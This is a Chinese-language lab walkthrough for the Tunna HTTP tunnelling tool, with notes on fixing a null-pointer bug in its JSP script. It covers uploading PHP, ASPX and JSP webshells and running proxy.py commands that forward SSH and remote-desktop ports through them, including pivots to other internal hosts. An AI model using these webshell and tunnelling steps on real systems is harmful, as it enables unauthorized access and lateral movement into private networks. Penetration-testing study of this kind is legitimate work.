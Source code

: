 # Tunna

https://github.com/SECFORCE/Tunna

## PHP

上传webshell到服务器

![](images/1.png)



### 场景一

通过webshell转发ssh端口


	python proxy.py -u http://10.10.40.21/conn.php -l 1234 -r 9527 -v -s
	-l 表示本地监听的端口
	-r 远程要转发的端口
	-v 详细模式
	-s 保证连接的时候不会中断




![](images/2.png)

另开一个窗口，ssh连接本地1234端口，查看地址

![](images/3.png)

成功



### 场景二

通过webshell转发内网其他主机ssh端口


	python proxy.py -u http://10.10.40.21/conn.php -l 1234 -r 22 -v -s -a 10.10.40.99
	-l 表示本地监听的端口
	-r 远程要转发的端口
	-v 详细模式
	-s 保证连接的时候不会中断
	-a 要转发的IP


![](images/4.png)

另开一个窗口，ssh连接本地1234端口，查看地址

![](images/5.png)

## ASPX

上传webshell到服务器

![](images/6.png)

### 场景一

通过webshell转发远程桌面3389


	python proxy.py -u http://10.10.40.60/conn.aspx -l 3389 -r 3389 --no-socks
	-l 表示本地监听的端口
	-r 远程要转发的端口
	--no-socks 不使用 Socks 代理


![](images/7.png)

通过remmina连接本地的3389端口

![](images/8.png)

![](images/9.png)

成功连接

![](images/10.png)

### 场景二

通过webshell转发内网其他主机远程桌面3389


	python proxy.py -u http://10.10.40.60/conn.aspx -l 3389 -r 3389  -a 10.10.40.53  -v
	-l 表示本地监听的端口
	-r 远程要转发的端口
	-v 详细模式
	-a 要转发的IP


![](images/11.png)

通过remmina连接本地的3389端口

![](images/12.png)

![](images/13.png)

成功连接

![](images/14.png)

## JSP

上传webshell到服务器

![](images/15.jpg)

## 场景一

通过webshell转发ssh端口


	python proxy.py -u http://10.10.40.21:8080/conn.jsp -l 1234 -r 9527 -s -v 
	-l 表示本地监听的端口
	-r 远程要转发的端口
	-v 详细模式
	-s 保证连接的时候不会中断


![](images/16.png)

另开一个窗口，ssh连接本地1234端口，查看地址

![](images/17.png)

成功



## 场景二

通过webshell转发内网其他主机ssh端口


	python proxy.py -u http://10.10.40.21:8080/conn.jsp -l 1234 -r 22 -s -v -a 10.10.40.63
	-l 表示本地监听的端口
	-r 远程要转发的端口
	-v 详细模式
	-s 保证连接的时候不会中断
	-a 要转发的IP


![](images/18.png)

另开一个窗口，ssh连接本地1234端口，查看地址

![](images/19.png)

成功



## 遇到的问题

### ERROR500：JSP脚本的空指针

本地搭建一个测试项目，开启debug，断点打在空指针处

![](images/20.png)

模拟脚本运行，传入参数

```
http://localhost:8080/test3_war_exploded/conn.jsp?proxy&port=3389&ip=192.168.153.131
```

![](images/21.png)

可以看到空指针，追踪s

![](images/22.png)

s由session的file得到，再强转，追踪file，找到setAttribute()方法

![](images/23.png)

发现都是些上传文件的操作，可是我们建立HTTP隧道不需要上传文件，应该就是空和null判断错误导致进入了判断语句

**上传文件是python proxy.py -u http://10.10.40.21:8080/conn.jsp -l 1234，建立socks代理

![](images/24.png)



**解决**

将判断条件改为null

![](images/25.png)

**conn.jsp 为本来的，conn.new.jsp 为更改后可用的。**

## ASPX脚本远程桌面遇到的问题

rdesktop连接转发的端口失败

**解决**

rdesktop有点问题

用remmina 可以了

![](images/27.png)

![](images/26.png)
